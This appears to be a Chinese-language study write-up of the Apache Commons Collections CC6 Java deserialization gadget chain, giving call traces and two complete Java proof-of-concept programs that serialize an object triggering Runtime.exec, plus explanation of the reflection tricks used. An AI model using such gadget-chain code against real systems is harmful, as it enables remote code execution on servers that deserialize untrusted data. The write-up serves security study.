










Apache-Commons-Collections 6
目录
TideMap.hashcode+Lazymap
版本
CommonsCollections 3.1 - 3.2.1
HashSet利用链
java.io.ObjectInputStream.readObject()
java.util.HashSet.readObject()
java.util.HashMap.put()
java.util.HashMap.hash()
org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
org.apache.commons.collections.map.LazyMap.get()
org.apache.commons.collections.functors.ChainedTransformer.transform()
...
org.apache.commons.collections.functors.InvokerTransformer.transform()
java.lang.reflect.Method.invoke()
java.lang.Runtime.exec()
POC
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;
import java.util.Set;
public class Main {
public static void main(String[] args) throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] {
String.class, Class[].class }, new Object[] {
"getRuntime", new Class[0] }),
new InvokerTransformer("invoke", new Class[] {
Object.class, Object[].class }, new Object[] {
null, new Object[0] }),
new InvokerTransformer("exec",
new Class[] { String.class }, new Object[]{"calc"})});
HashMap innermap = new HashMap();
LazyMap map = (LazyMap)LazyMap.decorate(innermap,chain);
TiedMapEntry tiedmap = new TiedMapEntry(map,123);
HashSet hashset = new HashSet(1);
hashset.add("foo");
Field field = Class.forName("java.util.HashSet").getDeclaredField("map");
field.setAccessible(true);
HashMap hashset_map = (HashMap) field.get(hashset);
Field table = Class.forName("java.util.HashMap").getDeclaredField("table");
table.setAccessible(true);
Object[] array = (Object[])table.get(hashset_map);
Object node = array[0];
Field key = node.getClass().getDeclaredField("key");
key.setAccessible(true);
key.set(node,tiedmap);
try{
ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc6"));
outputStream.writeObject(hashset);
outputStream.close();
ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc6"));
inputStream.readObject();
}catch(Exception e){
e.printStackTrace();
}
}
}
在TiedMapEntry 中，除了toString，还有hashCode方法可以调用getValue方法

那么这个hashCode方法哪里可以被调用呢？cc6中使用的是HashMap#hash

那么哪里调用了HashMap.hash且传入了可控参数？这里用到了HashMap#put：

那么哪里调用了HashMap.put 且传入了可控参数？这里用到了HashSet#readObject：

这里的e就是一个反序列化对象。那么由此观之，链完整了。这里的e值是HashMap里table中每一个Node的Key值，他这里循环读取table中的所有Node的Key值并处理。
POC分析
HashSet hashset = new HashSet(1);
hashset.add("foo");
Field field = Class.forName("java.util.HashSet").getDeclaredField("map");
field.setAccessible(true);
HashMap hashset_map = (HashMap) field.get(hashset);
Field table = Class.forName("java.util.HashMap").getDeclaredField("table");
table.setAccessible(true);
Object[] array = (Object[])table.get(hashset_map);
Object node = array[0];
Field key = node.getClass().getDeclaredField("key");
key.setAccessible(true);
key.set(node,tiedmap);
这里是用反射，去修改HashSet里的map属性中的table数组第一项的key值为恶意TiedMapEntry对象

这里涉及到HashMap的结构。
简而言之，HashMap底层是由一个叫table的长数组组成的，table中每一项都称为Node，每个Node存储的便是键值信息



HashMap利用链
利用链
ObjectInputStream.readObject()
HashMap.readObject()
HashMap.put()
HashMap.hash()
TiedMapEntry.hashCode()
TiedMapEntry.getValue()
LazyMap.get()
ChainedTransformer.transform()
ConstantTransformer.transform()
InvokerTransformer.transform()
Method.invoke()
Class.getMethod()
InvokerTransformer.transform()
Method.invoke()
Runtime.getRuntime()
InvokerTransformer.transform()
Method.invoke()
Runtime.exec()
POC
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.*;
import java.io.*;
import java.util.*;
public class Main {
public static void main(String[] args) throws Exception{
ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] {
String.class, Class[].class }, new Object[] {
"getRuntime", new Class[0] }),
new InvokerTransformer("invoke", new Class[] {
Object.class, Object[].class }, new Object[] {
null, new Object[0] }),
new InvokerTransformer("exec",
new Class[] { String.class }, new Object[]{"calc"})});
HashMap innerMap = new HashMap();
Map lazyMap = LazyMap.decorate(innerMap,chain);
TiedMapEntry tmap = new TiedMapEntry(lazyMap, 123);
HashMap hashMap = new HashMap();
hashMap.put(tmap, "test");
lazyMap.clear();
try{
ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc6"));
outputStream.writeObject(hashMap);
outputStream.close();
ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc6"));
inputStream.readObject();
}catch(Exception e){
e.printStackTrace();
}
}
}
在HashMap#readObject中存在这样的代码块

跟进putForCreate方法发现它可以调用hash方法

那么思路很明显了，我们可以通过HashMap的readObject方法去调用HashMap#putForCreate 进而调用HashMap#hash 从而实现这条链。
POC分析
HashMap hashMap = new HashMap();
hashMap.put(tmap, "test");
lazyMap.clear();
我们此处有个clear()操作
我们在序列化前对HashMap进行put操作时，会调用equals方法

一直跟下去会发现会触发lazymap的get方法，我们这里会发现调用了put方法向lazymap增加了键值对。

可以发现添加了一个ProcessImpl对象的value，这个对象没有实现序列化接口，不能被序列化，所以如果没有lazymap2.remove("yy")，就会导致在序列化时出现错误。

所以通过lazymap2.remove("yy")，可以帮助我们剔除在hashtable#put时添加进lazymap2中的不可序列化的对象，实现序列化。